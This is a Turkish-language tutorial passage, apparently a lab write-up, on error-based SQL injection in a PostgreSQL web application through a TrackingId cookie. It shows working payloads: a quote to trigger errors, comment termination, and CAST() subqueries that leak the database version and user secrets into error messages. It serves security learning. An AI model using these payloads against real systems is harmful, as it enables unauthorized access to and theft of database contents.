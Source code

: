 Örneğin `id` parametresine tek tırnak `'` ilave edildiğinde aşağıdaki gibi bir hata mesajı alınıyor :

```sql
Unterminated string literal started at position 52 in SQL SELECT * FROM tracking WHERE id = '''. Expected char
```

Bu mesaj sayesinde, girdinin durumu ve kullanıcının buna nasıl dahil olduğu görünüyor. Syntax hatasını gidermek için `--` (yorum satırı) eklenerek giderilebiliyor. Bu şekilde verilerin varlığını tespit edebiliyoruz. 

Fakat bazı durumlarda oluşan hata durumları, veritabanından dönen verinin kendisini de içerebiliyor. Bu da kör SQLi zafiyetini aktif olarak veri sızdıran bir hale dönüşebiliyor. Bunu tetiklemek için kullanılan yöntemlerden birisi de `CAST()` fonksiyonudur. Bu fonksiyon veri tipleri arasında dönüşüm yapılmasını sağlıyor. Örneğin :

```sql
CAST((SELECT secret FROM users LIMIT 1) AS INT
```

Eğer secret sütunu string tipindeyse ve bu veri integer'a çevirilmeye çalışılırsa ortaya şöyle bir hata çıkıyor ve hatanın içerisinde veri gözlemlenebiliyor :

```sql
ERROR: invalid input syntax for type integer: "FLAG-abc123"
```

Bu tür hatalar, özellikle karakter sınırlaması gibi payload kısıtlarının olduğu yerlerde oldukça etkili olabiliyor.

Bunu bir örnek üzerinde test edelim.

Bir web uygulamasında TrackingId sistemi olup kullanıcıları bu id üzerinden takip eden bir sistem :
`TrackingId=47auKfqhlHFRVevy` ve burada bir sql injection zafiyeti olduğunu düşünün.

SQL sorgusunu öğrenmek için `47auKfqhlHFRVevy'` tek tırnak işareti ile hata vermesini sağlayabiliriz.
```sql
Unterminated string literal started at position 52 in SQL SELECT * FROM tracking WHERE id = '47auKfqhlHFRVevy''. Expected  char
```
Sorgu ` SELECT * FROM tracking WHERE id = '47auKfqhlHFRVevy'` sorgusu olarak geliyor.
hatanın kalktığından emin olmak için `--` yorum satırı ekleyebiliriz. Şimdi sorguyu deşip veri aşırma zamanı...

**Veritabanında tip dönüştürme :**
Burada CAST fonksiyonu ile verinin tipini bulunduğu halden istediğimiz hale dönüşmesini belirtebiliriz. Bu uyumsuzluk sayesinde hangi verinin hangi tipe dönüşmeyeceği hususunda bize geri hata döner. Mesela :
```sql
-- Burada uygulamanın veriyonunu CAST ve version() fonksiyonları ile öğreniyoruz. 
AND 1=CAST((SELECT version())AS int)-- Başında ' unutmayın
-- Çıktı
ERROR: invalid input syntax for type integer: "PostgreSQL 12.22 (Ubuntu 12.22-0ubuntu0.20.04.2) on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 9.4.0-1ubuntu1~20.04.2) 9.4.0, 64-bit"
```
